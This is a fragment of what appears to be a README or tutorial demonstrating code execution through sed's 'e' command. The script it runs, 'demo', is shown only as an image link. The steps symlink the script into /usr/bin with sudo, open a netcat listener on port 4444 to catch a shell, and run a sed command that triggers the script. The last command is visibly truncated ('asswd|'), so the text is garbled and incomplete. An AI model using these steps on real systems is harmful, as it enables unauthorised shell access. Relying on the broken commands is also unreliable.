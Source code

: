 - Provide the permission and add the soft link
```
chmod +x demo
sudo ln -s $PWD/demo /usr/bin
```

- Listen on another terminal
  ```
  nc -nlvp 4444
  ```

  - Start the script command demo
  ```
  asswd| sed '/root/ e demo'
  ``` 

